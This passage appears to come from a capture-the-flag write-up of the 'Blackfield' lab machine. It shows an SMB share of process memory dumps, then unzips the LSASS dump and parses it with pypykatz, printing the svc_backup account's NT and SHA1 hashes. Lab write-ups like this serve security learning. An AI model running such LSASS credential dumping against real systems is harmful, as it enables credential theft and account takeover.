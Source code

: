 here we see again this user `Ipwn3dYouCompany` which i did not find in bloodhound

the rest of the txt files provide no useful information.

Lets now inspect the `memory_analysis` folder:
```bash
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 16:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 16:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 16:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 16:26:24 2020
  ServerManager.zip                   A 131983313 Thu May 28 16:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 16:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 16:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 16:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 16:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 16:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 16:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 16:27:53 2020

                7846143 blocks of size 4096. 3490514 blocks available
```
very interesting, each one of those is a memory dump file!
well without any hesitation, we must first try doing sth with `lsass.zip` for obvious reasons, lets unzip it first
```bash
unzip lsass.zip
Archive:  lsass.zip
  inflating: lsass.DMP 
```

now check what type of file it is
```bash
file lsass.DMP
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```

with a little bit of research, i found `pypykatz` would be usefull to dump this file
```bash
pypykatz lsa minidump lsass.DMP
INFO:root:Parsing file lsass.DMP                          
FILE: ======== lsass.DMP =======                          
== LogonSession ==
authentication_id 406458 (633ba)                    
session_id 2
username svc_backup                        
domainname BLACKFIELD                               
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413  
luid 406458
        == MSV ==                          
                Username: svc_backup                      
                Domain: BLACKFIELD   
                LM: NA                              
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
        == WDIGEST [633ba]==                              
                username svc_backup
                domainname BLACKFIELD
                password None                             
        == SSP [633ba]==             
```